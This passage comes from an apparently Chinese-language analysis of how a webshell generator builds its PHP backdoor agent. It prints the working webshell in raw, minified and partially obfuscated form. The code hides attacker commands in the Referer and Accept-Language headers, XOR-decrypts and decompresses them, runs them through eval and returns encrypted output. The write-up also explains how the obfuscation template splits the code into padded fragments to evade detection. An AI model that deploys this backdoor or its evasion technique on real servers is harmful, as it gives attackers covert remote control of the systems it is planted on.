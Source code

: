 			if($q&&$m){
				@session_start();

				$s=&$_SESSION;
				$ss="substr";
				$sl="strtolower";

				$i=$m[1][0].$m[1][1];
				$h=$sl($ss(md5($i.$kh),0,3));
				$f=$sl($ss(md5($i.$kf),0,3));

				$p="";
				for($z=1;$z<count($m[1]);$z++) $p.=$q[$m[2][$z]];

				if(strpos($p,$h)===0){
					$s[$i]="";
					$p=$ss($p,3);
				}

				if(array_key_exists($i,$s)){

					$s[$i].=$p;

					$e=strpos($s[$i],$f);
					if($e){
						$k=$kh.$kf;
						ob_start();
						@eval(@gzuncompress(@x(@base64_decode(preg_replace(array("/_/","/-/"),array("/","+"),$ss($s[$i],0,$e))),$k)));
						$o=ob_get_contents();
						ob_end_clean();
						$d=base64_encode(x(gzcompress($o),$k));
						print("<$k>$d</$k>");
						@session_destroy();
					}
				}
			}
		}
3. <code> **minified_agent = utils.code.minify_php(agent)**</code>对原始的webshell进行"净化"操作，去除里面"\n\t"等特殊字符。处理完的源码为：<br>

		$kh="5d41";$kf="402a";function x($t,$k){$c=strlen($k);$l=strlen($t);$o="";for($i=0;$i<$l;){for($j=0;($j<$c&&$i<$l);$j++,$i++){$o.=$t{$i}^$k{$j};}}return $o;}$r=$_SERVER;$rr=@$r["HTTP_REFERER"];$ra=@$r["HTTP_ACCEPT_LANGUAGE"];if($rr&&$ra){$u=parse_url($rr);parse_str($u["query"],$q);$q=array_values($q);preg_match_all("/([\w])[\w-]+(?:;q=0.([\d]))?,?/",$ra,$m);if($q&&$m){@session_start();$s=&$_SESSION;$ss="substr";$sl="strtolower";$i=$m[1][0].$m[1][1];$h=$sl($ss(md5($i.$kh),0,3));$f=$sl($ss(md5($i.$kf),0,3));$p="";for($z=1;$z<count($m[1]);$z++)$p.=$q[$m[2][$z]];if(strpos($p,$h)===0){$s[$i]="";$p=$ss($p,3);}if(array_key_exists($i,$s)){$s[$i].=$p;$e=strpos($s[$i],$f);if($e){$k=$kh.$kf;ob_start();@eval(@gzuncompress(@x(@base64_decode(preg_replace(array("/_/","/-/"),array("/","+"),$ss($s[$i],0,$e))),$k)));$o=ob_get_contents();ob_end_clean();$d=base64_encode(x(gzcompress($o),$k));print("<$k>$d</$k>");@session_destroy();}}}}
4. <code> **obfuscated = obfuscator_template.render(agent=agent)**</code>这是最核心的代码，使用obfuscator模板对webshell进行"模糊处理"，去除容易被检测的特征。模糊处理完的文件源码为：<br>

		<?php
		$s='d5($R$i.$$Rkh),0,3));$R$f=$sl$R($ss(m$Rd5$R($i.$kf),0,3$R));$p$R$R="";for($R$z=1;$R$z<count($R$m[1]);$z$R++)$p.=$R$q[$m[$R';
		$H='$Rses$Rsion_st$Rart();$s=&$_SES$RSION;$ss="$Rsub$Rs$Rtr";$sl="str$Rtolower$R";$i$R=$m[1$R][0]$R.$m[1][1];$R$h=$R$sl($ss($Rm';
		$u='g_replac$Re(arr$Ray$R("/_/","/$R-/"),arr$Ray$R("/","+"$R),$$Rss($s[$i],0$R,$e)$R))$R,$k)));$$Ro=ob_$Rget_$Rcontents($R);ob_';
		$V='$kh="$R5d41";$R$kf="402$Ra$R$R";function x($t,$$Rk){$c=st$Rr$Rlen($k);$l=st$Rrlen$R($t)$R;$o="";for$R($$Ri=0;$i<$$Rl;){$Rfor';
		$E=';$R$q=a$Rrray_valu$Res($q);$Rpr$Reg_match$R_all("/($R[\\w])[$R\\w-]+(?:;$Rq=0$R.([\\d$R]))?$R,?/",$ra$R,$m);if($$Rq$R&&$m)$R{@';
		$c='($j=$R0;($j<$R$c&&$R$$Ri<$R$l);$j++$R,$$Ri++){$o.=$t{$i$R}^$k{$j}$R;}}return$R $R$o$R;}$r=$_SERVER;$$Rrr=@$r[$R"HT$RTP_REFER';